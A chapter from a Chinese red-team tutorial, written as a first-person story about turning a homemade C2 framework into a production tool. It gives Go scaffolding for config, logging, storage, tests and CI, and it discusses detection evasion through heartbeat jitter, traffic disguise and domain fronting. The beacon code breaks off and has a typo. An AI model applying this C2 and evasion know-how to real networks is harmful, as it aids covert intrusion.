






# 第128章 脚本小子到工具开发大神（下）

> **难度等级：⭐⭐⭐⭐ 硬菜**
>
> **预计阅读时间：180分钟**
>
> **本章看点：加入工具研发组、C2框架从架构到实现、流量混淆与域前置、内网穿透工具自研、护网复仇之战、C2开源破5000 Star、KCon演讲、创办安全公司**
>
> ::: tip 说明
> 本章承接第127章的故事，继续讲阿杰从"会造小工具"到"会造大工具"、再到"造工具创业"的下半场。
> 文中提到的技术细节，后续对应章节会有更深入的讲解。
> 标注"（详见第X章）"的内容，可以翻到对应章节学习具体操作方法。
>
> 本章所有人物、公司、事件均已脱敏处理，**基于真实事件改编**。
> :::

---

## 📖 本章概述

::: tip 写在前面
上一章我们讲到，阿杰从一个只会用工具的脚本小子，被国产化环境毒打之后，痛定思痛学编程，从Python写到Go，开源了端口扫描器LiteScan拿到1000+ Star，又研究了CS插件、BOF、C2框架，最后被老吴邀请加入工具研发组。

故事讲到这里，其实只是上半场。

因为会写一个端口扫描器、会写一个C2 v0.1，离"工具开发大神"还差得远。

真正的工具开发大神，要做的事是：
- 把一个原型，打磨成能扛起整个红队的生产级工具
- 把一个简陋的C2，做成有插件系统、多协议、流量隐蔽的框架
- 把"自己用的工具"，变成"全行业都在用的工具"
- 把"打工的身份"，变成"创业的身份"

这一章，你会看到：
- 阿杰是怎么把C2 v0.1一点点重写成生产级框架的
- 流量被蓝队检测之后，他是怎么死磕流量混淆的
- 内网穿透工具为什么要自研，又是怎么造出来的
- 护网红队第一次用自研C2，是怎么打穿整个靶场的
- C2开源之后从1000 Star涨到5000+ Star的过程
- 站上KCon讲台是什么感觉
- 创办安全公司的真实酸甜苦辣
- 一个脚本小子，最后是怎么蜕变成工具开发大神的
:::

---

## 🎯 学习目标

读完本章，你将了解：

- [x] 从原型到生产级工具，需要经历哪些打磨
- [x] C2框架的完整架构设计（心跳、任务调度、插件系统、多协议）
- [x] C2流量被检测之后，怎么用流量混淆和域前置解决
- [x] DNS over HTTPS、自定义协议、域前置这些隐蔽通信技术的原理
- [x] 内网穿透工具（frp/nps类）的架构和实现思路
- [x] 护网红队行动中，自研C2相比CS的优势在哪里
- [x] 开源安全项目从1000 Star到5000+ Star的运营逻辑
- [x] 在KCon、看雪SDC这类安全会议上演讲是什么体验
- [x] 创办安全公司的真实过程和踩过的坑
- [x] 从脚本小子到工具开发大神，再到创业者，完整的成长路径

---

## 🚀 加入工具研发组：新的起点

### 1.1 答应老吴

老吴那条消息，我盯着看了整整十分钟。

> "我们公司准备成立一个'工具研发组'，之前就我一个人，现在准备扩招。你要不要来？"

我承认，我心跳加速了。

```
🤔 我当时的心情：

1. 激动：老吴认可我了！一年前我还在被他的自研工具救场，现在他要带我搞研发
2. 纠结：我现在是渗透测试组的"老员工"，跳到研发组等于从零开始
3. 担心：我能行吗？工具研发组可是公司技术天花板，我就学了不到两年
4. 期待：这才是我真正想做的事——造工具，而不是用工具
```

我那天晚上跟老婆商量了一下。

```
👨‍💻 我：老婆，公司要成立工具研发组，老吴邀请我去。
👩‍💼 老婆：工具研发组？你不是一直想搞这个吗？
👨‍💻 我：对，但是有点怕。我现在渗透组混得还行，去了研发组就是新手。
👩‍💼 老婆：你想去吗？
👨‍💻 我：想。
👩‍💼 老婆：那就去。怕什么，大不了从头学。你这一年不都是从头学过来的吗？
```

老婆这句话，让我下定了决心。

第二天，我给老吴回了消息：

```
👨‍💻 我：吴哥，我去！什么时候报到？
👨‍💼 老吴：下周一直接过来，工位我给你安排好了，挨着我坐。
       以后跟着我，先从工具的工程化开始学。
       对了，你的C2 v0.1别丢，咱们后面把它重写成生产级的。
👨‍💻 我：好嘞！
```

周一，我正式加入了工具研发组。

```
🏢 工具研发组的新阵容：

【组长】老吴（10年安全工具开发经验，公司技术总监级）
【组员】
- 阿杰（也就是我，从渗透组转过来）
- 小陈（从外部招的，3年Go开发经验，做过分布式系统）
- 老李（公司老人，5年C/C++经验，负责底层工具）
- 后面又陆续招了几个人

【组的工作内容】
1. 给公司红队造工具（C2、扫描器、内网穿透、后渗透框架...）
2. 给公司蓝队造工具（检测规则、流量分析、蜜罐...）
3. 开源项目运营（LiteScan、未来的C2框架...）
4. 前沿技术预研（AI在安全工具中的应用、EDR对抗...）
```

> 💡 **从渗透转研发，最大的变化是什么？**
> 渗透测试是"用工具解决问题"，关注的是"结果"。
> 工具研发是"造工具让别人用"，关注的是"工程"。
> 一个是"打仗的"，一个是"造武器的"。
> 造武器的人，要考虑的不仅仅是"能不能用"，还要考虑"好不好用""稳不稳定""可不可扩展""好不好维护"。
> 这就是"工程化"思维。

### 1.2 工具研发组的日常

加入研发组的第一周，老吴就给我上了一课。

```
👨‍💼 老吴：
"阿杰，你那个C2 v0.1我看了，功能是跑通了，但是离'生产级'还差得远。
 我给你列一下问题清单：

 1. 架构问题
    - 服务端是单进程，Agent多了扛不住
    - 没有持久化，服务端一重启，所有Agent信息全丢
    - 没有分布式设计，没法横向扩展

 2. 通信问题
    - 明文HTTP，蓝队一抓包就完蛋
    - 没有证书校验，容易被中间人
    - 心跳间隔固定，行为分析一抓一个准
    - 没有流量伪装，特征太明显

 3. 功能问题
    - 只支持HTTP，没DNS、没TCP、没ICMP
    - 没有文件传输
    - 没有端口转发
    - 没有插件系统，扩展不了
    - 没有持久化机制
    - 没有权限提升模块

 4. 工程问题
    - 没有日志系统
    - 没有配置管理
    - 没有错误处理
    - 没有测试用例
    - 没有CI/CD
    - 代码风格不统一

 5. 安全问题
    - Agent没有认证机制，谁都能连
    - 命令执行没有沙箱，容易被反制
    - 没有抗分析设计

 这些问题，我们一个一个解决。
 这就是'生产级'和'玩具'的区别。"
```

我看着这份清单，有点头皮发麻。

> "我靠，我那个v0.1，问题这么多？"
> "不过老吴说得对，我那个确实只是'玩具'，离'生产级'差得远。"

从那天开始，我正式踏上了"把玩具打磨成生产级工具"的路。

```
📅 工具研发组的日常：

【早上 9:30 - 10:00】
- 站会：每个人说一下昨天干了什么，今天要干什么，有没有阻塞
- 老吴过一遍进度，安排优先级

【上午 10:00 - 12:00】
- 写代码
- Code Review（互相review代码，这是研发组的硬性要求）
- 技术讨论（经常一讨论就是一个小时）

【下午 14:00 - 18:00】
- 继续写代码
- 测试（写测试用例，跑CI）
- 文档（每个功能都要写文档）
- 跟红队/蓝队沟通需求

【晚上】
- 加班是常态（但不是无效加班，是真的有事干）
- 偶尔跟老吴讨论技术，能聊到很晚
- 周末有时候也会来（自愿的，因为想搞自己的开源项目）

【每周五下午】
- 技术分享会：一个人讲一个技术主题
- 轮流讲，每个人都要讲
- 这是非常好的学习方式
```

> 💡 **Code Review（代码审查）是什么？**
> Code Review就是同事之间互相检查代码。
> 写完代码之后，不是直接合并到主分支，而是发一个PR（Pull Request），让同事review。
> 同工会指出你的代码问题：bug、性能、风格、设计...
> 这是提升代码质量的最有效手段，也是新手快速学习的重要途径。
> 我在研发组的第一年，光是通过Code Review学到的东西，就比我自己闷头写一年学到的多。

### 1.3 从个人开发到团队开发

加入研发组后，我遇到的第一个大冲击，是"团队开发"和"个人开发"的区别。

```
🤔 个人开发 vs 团队开发：

【个人开发】
- 自己想怎么写就怎么写
- 代码风格随意
- 不用写注释
- 不用写文档
- 不用写测试
- 提交直接push到main分支
- 一个项目就自己一个人搞

【团队开发】
- 要遵循团队的代码规范
- 代码风格统一（用gofmt、golangci-lint）
- 必须写注释（公共函数、复杂逻辑）
- 必须写文档（README、API文档）
- 必须写测试（单元测试、集成测试）
- 提交要走PR流程，被review才能合并
- 一个项目多个人协作，要分工、要合并、要解决冲突
```

老吴让我学的第一件事，是Git的团队协作流程。

```
📚 Git Flow 工作流：

1. main 分支：生产分支，永远保持可发布状态
2. develop 分支：开发分支，日常开发在这里
3. feature/* 分支：新功能分支，从develop切出来
4. hotfix/* 分支：紧急修复分支，从main切出来

流程：
- 开发新功能 → 从develop切一个feature分支
- 在feature分支上写代码
- 写完之后，提PR合并到develop
- 同事review，提修改意见
- 修改后，合并到develop
- develop测试通过后，合并到main，打tag发布

这个流程，保证了代码质量，也避免了互相踩脚。"
```

我之前开源LiteScan的时候，是自己一个人搞，git用得很随意，经常直接push到main。到了研发组，这种习惯得改。

```
😅 我犯过的几个"团队开发"的错误：

1. 直接push到main分支
   - 被老吴骂了一顿
   - "main分支是生产分支，你直接push上去了，万一有bug怎么办？"
   - 之后所有改动都走PR

2. 代码风格不统一
   - 我用tab，同事用空格
   - 我用驼峰命名，同事用下划线
   - 老吴让我用gofmt统一格式，用golangci-lint做静态检查
   - 配置了pre-commit hook，提交前自动检查

3. 不写测试
   - 我之前从来写测试
   - 老吴说："没有测试的代码，就是'不可信'的代码"
   - 强制要求：每个公共函数都要有单元测试，覆盖率不低于70%
   - 一开始我觉得烦，后来发现，写测试让我发现了一堆bug

4. PR描述太简单
   - 我提PR，描述就写"修复bug"
   - 老吴说："PR描述要写清楚：改了什么、为什么改、怎么测的"
   - 之后我提PR，描述都写得很详细

5. 不写文档
   - 加了新功能，不更新文档
   - 同事用的时候发现文档跟代码对不上
   - 老吴定了个规矩：加功能，必须同步更新文档
```

> 💡 **给初学者的建议：**
> 如果你以后想做工具开发，趁早养成这些习惯：
> 1. 用Git管理代码，走PR流程
> 2. 遵循代码风格规范
> 3. 写测试
> 4. 写文档
> 5. Code Review
> 这些"软技能"，比"硬技术"还重要。
> 因为硬技术可以学，软技能要靠习惯养成。

### 1.4 工具开发的工程化

加入研发组第二个月，老吴让我把C2 v0.1的代码"工程化"一遍。

什么是工程化？就是把一个"能跑的玩具"，变成"可维护的项目"。

```
🛠️ C2框架的工程化改造：

【1. 项目结构重构】

之前v0.1的结构（乱七八糟）：
c2/
├── c2_server.go    # 所有服务端代码塞在一个文件
├── c2_agent.go     # 所有Agent代码塞在一个文件
├── c2_cli.go       # 所有客户端代码塞在一个文件
├── go.mod
└── README.md

重构后的结构（清晰分模块）：
c2/
├── cmd/                    # 入口程序
│   ├── server/             # 服务端入口
│   │   └── main.go
│   ├── agent/              # Agent入口
│   │   └── main.go
│   └── cli/                # 客户端入口
│       └── main.go
├── internal/               # 内部包（不对外暴露）
│   ├── server/             # 服务端逻辑
│   │   ├── listener.go     # 监听器
│   │   ├── manager.go      # Agent管理器
│   │   ├── task.go         # 任务调度
│   │   └── api.go          # API接口
│   ├── agent/              # Agent逻辑
│   │   ├── beacon.go       # 心跳
│   │   ├── executor.go     # 命令执行
│   │   └── transporter.go  # 通信层
│   ├── crypto/             # 加密模块
│   │   ├── aes.go
│   │   ├── rsa.go
│   │   └── tls.go
│   ├── protocol/           # 通信协议
│   │   ├── http.go
│   │   ├── dns.go
│   │   └── tcp.go
│   └── plugin/             # 插件系统
│       ├── manager.go
│       └── interface.go
├── pkg/                    # 对外暴露的包
│   └── types/              # 公共类型
│       └── types.go
├── configs/                # 配置文件
│   ├── server.yaml
│   └── agent.yaml
├── scripts/                # 脚本
│   ├── build.sh            # 编译脚本
│   └── release.sh          # 发布脚本
├── docs/                   # 文档
│   ├── architecture.md     # 架构设计
│   ├── protocol.md         # 协议设计
│   └── plugin.md           # 插件开发
├── .github/                # GitHub配置
│   └── workflows/
│       └── ci.yml          # CI/CD配置
├── go.mod
├── go.sum
├── Makefile                # 编译入口
├── LICENSE
├── README.md
└── CONTRIBUTING.md
```

这个结构参考了Go社区的最佳实践，清晰、可维护、可扩展。

```
【2. 配置管理】

之前v0.1，配置硬编码在代码里（ServerURL = "http://1.2.3.4:8080"）。
工程化之后，配置用YAML文件管理：

# configs/server.yaml
server:
  listen: 0.0.0.0:8443
  tls:
    cert: ./certs/server.crt
    key: ./certs/server.key
  auth:
    api_key: "${C2_API_KEY}"   # 从环境变量读
database:
  type: sqlite
  path: ./data/c2.db
agent:
  heartbeat_interval: 5s
  heartbeat_jitter: 30%        # 心跳抖动，避免行为分析
logging:
  level: info
  file: ./logs/c2.log
```

```go
// internal/config/config.go
package config

import (
	"os"
	"time"
	"github.com/spf13/viper"
)

type ServerConfig struct {
	Listen      string        `mapstructure:"listen"`
	TLS         TLSConfig     `mapstructure:"tls"`
	Auth        AuthConfig    `mapstructure:"auth"`
	Database    DBConfig      `mapstructure:"database"`
	Agent       AgentConfig   `mapstructure:"agent"`
	Logging     LogConfig     `mapstructure:"logging"`
}

type AgentConfig struct {
	HeartbeatInterval time.Duration `mapstructure:"heartbeat_interval"`
	HeartbeatJitter   float64       `mapstructure:"heartbeat_jitter"` // 0-1
}

func Load(path string) (*ServerConfig, error) {
	viper.SetConfigFile(path)
	viper.AutomaticEnv() // 自动读环境变量
	if err := viper.ReadInConfig(); err != nil {
		return nil, err
	}
	var cfg ServerConfig
	if err := viper.Unmarshal(&cfg); err != nil {
		return nil, err
	}
	return &cfg, nil
}
```

```
【3. 日志系统】

之前v0.1，用fmt.Println打印日志，没法管理。
工程化之后，用结构化日志（zap）：

```go
// internal/logger/logger.go
package logger

import (
	"go.uber.org/zap"
	"go.uber.org/zap/zapcore"
)

var L *zap.Logger

func Init(level, filePath string) error {
	config := zap.NewProductionConfig()
	config.Level = zap.NewAtomicLevelAt(parseLevel(level))
	if filePath != "" {
		config.OutputPaths = []string{filePath, "stdout"}
	}
	config.EncoderConfig.TimeKey = "ts"
	config.EncoderConfig.EncodeTime = zapcore.ISO8601TimeEncoder

	var err error
	L, err = config.Build()
	return err
}

// 使用：
// logger.L.Info("agent registered",
//     zap.String("agent_id", id),
//     zap.String("hostname", hostname),
// )
```

结构化日志的好处是可以按字段查询，方便排查问题。

```
【4. 持久化】

之前v0.1，Agent信息存在内存里，服务端重启就全丢了。
工程化之后，用SQLite持久化（生产环境用PostgreSQL）：

```go
// internal/server/store.go
type Store interface {
	SaveAgent(agent *Agent) error
	GetAgent(id string) (*Agent, error)
	ListAgents() ([]*Agent, error)
	DeleteAgent(id string) error
	SaveTask(task *Task) error
	ListPendingTasks(agentID string) ([]*Task, error)
	SaveResult(result *Result) error
}

// SQLite实现
type SQLiteStore struct {
	db *sql.DB
}

func NewSQLiteStore(path string) (*SQLiteStore, error) {
	db, err := sql.Open("sqlite3", path)
	if err != nil {
		return nil, err
	}
	// 建表
	db.Exec(`
		CREATE TABLE IF NOT EXISTS agents (
			id TEXT PRIMARY KEY,
			ip TEXT,
			hostname TEXT,
			os TEXT,
			username TEXT,
			last_seen TIMESTAMP,
			created_at TIMESTAMP,
			status TEXT
		);
		CREATE TABLE IF NOT EXISTS tasks (
			id TEXT PRIMARY KEY,
			agent_id TEXT,
			command TEXT,
			args TEXT,
			status TEXT,
			created_at TIMESTAMP,
			executed_at TIMESTAMP
		);
		CREATE TABLE IF NOT EXISTS results (
			id TEXT PRIMARY KEY,
			task_id TEXT,
			agent_id TEXT,
			output TEXT,
			error TEXT,
			created_at TIMESTAMP
		);
	`)
	return &SQLiteStore{db: db}, nil
}
```

```
【5. 测试】

工程化要求每个模块都要有测试：

```go
// internal/server/manager_test.go
package server

import (
	"testing"
	"time"
)

func TestAgentManager_Register(t *testing.T) {
	mgr := NewAgentManager(NewMemoryStore())
	
	agent := &Agent{
		ID:       "test-1",
		Hostname: "test-host",
		OS:       "linux",
	}
	
	err := mgr.Register(agent)
	if err != nil {
		t.Fatalf("Register failed: %v", err)
	}
	
	got, err := mgr.Get("test-1")
	if err != nil {
		t.Fatalf("Get failed: %v", err)
	}
	
	if got.Hostname != "test-host" {
		t.Errorf("hostname = %s, want test-host", got.Hostname)
	}
}

func TestAgentManager_Heartbeat(t *testing.T) {
	mgr := NewAgentManager(NewMemoryStore())
	agent := &Agent{ID: "test-1"}
	mgr.Register(agent)
	
	// 模拟心跳
	mgr.Heartbeat("test-1")
	
	got, _ := mgr.Get("test-1")
	if time.Since(got.LastSeen) > time.Second {
		t.Errorf("LastSeen not updated")
	}
}

// 表驱动测试
func TestIdentifyService(t *testing.T) {
	tests := []struct {
		port    int
		banner  string
		want    string
	}{
		{22, "SSH-2.0-OpenSSH_7.4", "ssh"},
		{80, "HTTP/1.1 200 OK", "http"},
		{443, "", "https"},
		{5232, "DM Database Server", "达梦数据库"},
		{8080, "TongWeb/7.0", "东方通TongWeb"},
	}
	
	for _, tt := range tests {
		got := identifyService(tt.port, tt.banner)
		if got != tt.want {
			t.Errorf("identifyService(%d, %q) = %q, want %q",
				tt.port, tt.banner, got, tt.want)
		}
	}
}
```

```
【6. CI/CD】

用GitHub Actions做持续集成：

```yaml
# .github/workflows/ci.yml
name: CI

on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main, develop]

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v3
    - uses: actions/setup-go@v3
      with:
        go-version: '1.21'
    - run: go mod download
    - run: go vet ./...
    - run: go test -race -coverprofile=coverage.txt ./...
    - run: go tool cover -func=coverage.txt
    
  build:
    needs: test
    runs-on: ubuntu-latest
    strategy:
      matrix:
        include:
          - goos: linux
            goarch: amd64
          - goos: linux
            goarch: arm64
          - goos: windows
            goarch: amd64
          - goos: darwin
            goarch: amd64
    steps:
    - uses: actions/checkout@v3
    - uses: actions/setup-go@v3
      with:
        go-version: '1.21'
    - run: GOOS=${{ matrix.goos }} GOARCH=${{ matrix.goarch }} go build -o c2-${{ matrix.goos }}-${{ matrix.goarch }} ./cmd/server
```

每次push或PR，自动跑测试、跨平台编译。测试不过，不让合并。
```

工程化改造花了整整两个月，但是改造完之后，整个项目焕然一新。

```
🎉 工程化改造的成果：

【代码质量】
- 代码风格统一（gofmt + golangci-lint）
- 单元测试覆盖率：78%
- 没有静态检查告警
- 模块划分清晰

【可维护性】
- 改一个功能，不会影响其他功能
- 加一个功能，有明确的扩展点
- 出了bug，能快速定位

【可扩展性】
- 支持插件扩展
- 支持多协议
- 支持分布式部署

【可观测性】
- 结构化日志
- 监控指标（Prometheus）
- 链路追踪（OpenTelemetry）
```

> 💡 **什么是"生产级"工具？**
> 生产级工具，就是能扛得住真实场景考验的工具。
> 它要满足：
> 1. **稳定**：7x24小时运行不崩
> 2. **可靠**：数据不丢，命令不漏
> 3. **可扩展**：能加新功能，能扛更多Agent
> 4. **可维护**：出问题能排查，能修
> 5. **可观测**：能监控，能告警
> 6. **安全**：不容易被反制，不容易被检测
>
> 你的工具能达到这6条，才算"生产级"。

---

## 🏗️ C2框架：从架构设计到实现

### 2.1 重新设计C2架构

工程化改造完，老吴跟我说：

```
👨‍💼 老吴：
"工程化只是第一步。
 接下来，我们要把这个C2，重做成真正的'框架'。
 '框架'和'工具'的区别是什么？
 工具是'做一件事的程序'，框架是'能做很多事的平台'。
 CS为什么牛逼？因为它是一个框架，有插件系统，能扩展。
 我们也要把C2做成框架。"
```

我跟老吴、小陈三个人，关在小会议室里讨论了一周，把C2的架构重新设计了一遍。

```
🎯 C2框架 v2.0 设计目标：

【核心目标】
1. 多协议：HTTP/HTTPS、DNS、TCP、ICMP、WebSocket
2. 流量隐蔽：TLS、流量伪装、域前置、自定义协议
3. 插件系统：支持用Go插件、Lua脚本扩展
4. 跨平台：Windows、Linux、macOS、麒麟OS、统信UOS
5. 分布式：服务端可横向扩展，支持多节点
6. 高性能：能扛10000+ Agent同时在线
7. 易用性：CLI + Web UI双界面
8. 可观测：日志、监控、链路追踪

【设计原则】
1. 模块化：高内聚，低耦合
2. 接口化：用interface定义契约，方便替换实现
3. 配置化：能用配置解决的，就不写死在代码里
4. 可测试：每个模块都能独立测试
5. 可扩展：预留扩展点，方便加新功能
```

**图128-1 C2框架 v2.0 整体架构图**



这个架构图看起来很复杂，但是核心就三层：

```
🏗️ C2架构三层模型：

【1. 服务端（Server）】
- 负责接收Agent连接、管理Agent、下发任务、收集结果
- 多节点部署，通过Redis共享状态，通过MQ传递消息
- 提供API给客户端（CLI/Web UI）调用

【2. 通信协议层（Protocol）】
- 负责Agent和服务端之间的通信
- 支持多种协议：HTTP/HTTPS、DNS、TCP、ICMP、WebSocket
- 每种协议都是一个独立的Listener
- 流量加密 + 流量伪装

【3. Agent（被控端）】
- 在目标机器上运行
- 通过通信协议层回连服务端
- 执行下发的命令
- 支持插件扩展
```

### 2.2 心跳机制：比想象中复杂

很多人觉得，C2的心跳不就是"定时请求服务端"吗？

没那么简单。

```
🤔 心跳机制的设计，要考虑这些问题：

1. 心跳间隔
   - 太短：流量大，容易被检测
   - 太长：命令下发延迟高
   - 一般5-60秒，可配置

2. 心跳抖动（Jitter）
   - 固定间隔容易被行为分析检测
   - 加抖动：5秒 ± 30%，即3.5-6.5秒随机
   - 抖动让流量看起来"不那么规律"

3. 心跳失败处理
   - 网络抖动导致心跳失败，不能直接退出
   - 重试机制：失败后重试N次
   - 退避机制：连续失败，间隔指数增长
   - 长时间失败：切换备用通道

4. 心跳内容
   - 心跳不只是"我还活着"
   - 可以携带：当前状态、待上传的结果
   - 服务端响应可以携带：待下发的任务
   - 一个心跳，搞定两件事

5. 心跳伪装
   - 心跳流量要伪装成正常流量
   - 比如伪装成访问网站的HTTP请求
   - 不能有明显的"心跳特征"
```

我们设计的心跳机制：

```go
// internal/agent/beacon.go
package agent

import (
	"context"
	"math/rand"
	"time"
)

type Beacon struct {
	serverURL       string
	interval        time.Duration // 基础间隔
	jitter          float64       // 抖动比例 0-1
	maxRetries      int           // 最大重试次数
	transporter     Transporter   // 通信层
	taskHandler     TaskHandler   // 任务处理器
	
	// 状态
	lastHeartbeat   time.Time
	consecutiveFail int
	running         bool
}

func New Beacon(opts ...Option) *Beacon {
	b := &Beacon{
		interval:        10 * time.Second,
		jitter:          0.3,
		maxRetries:      5,
	}
	for _, opt := range opts {
		opt(b)
	}
	return b
}

// Run 启动心跳循环
func (b *Beacon) Run(ctx context.Context) {
